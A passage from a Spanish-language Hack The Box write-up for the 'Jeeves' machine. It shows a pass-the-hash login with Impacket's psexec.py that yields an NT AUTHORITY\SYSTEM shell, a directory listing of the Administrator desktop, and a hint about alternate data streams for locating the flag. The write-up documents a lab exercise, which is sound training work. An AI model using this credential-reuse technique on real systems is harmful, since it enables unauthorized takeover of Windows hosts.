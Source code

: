 ## Shell as Administrator 

Pues bueno podemos conectarnos con el hash nt 

```bash
❯ psexec.py WORKGROUP/Administrator@10.10.10.63 -hashes :e0fb1fb85756c24235ff238cbe81fe00
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file LBvnmiYK.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service QTka on 10.10.10.63.....
[*] Starting service QTka.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> 
```

## Root.txt

Nos dicen que la flag esta en otro lado

```bash
C:\Users\Administrator\Desktop> dir  
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,407,817,216 bytes free

C:\Users\Administrator\Desktop> type hm.txt
The flag is elsewhere.  Look deeper.
C:\Users\Administrator\Desktop> 
```

Bueno vamos a hacer un `dir /r /s` que corresponden a `data streams` 

![](/assets/images/htb-writeup-jeeves/web19.png)
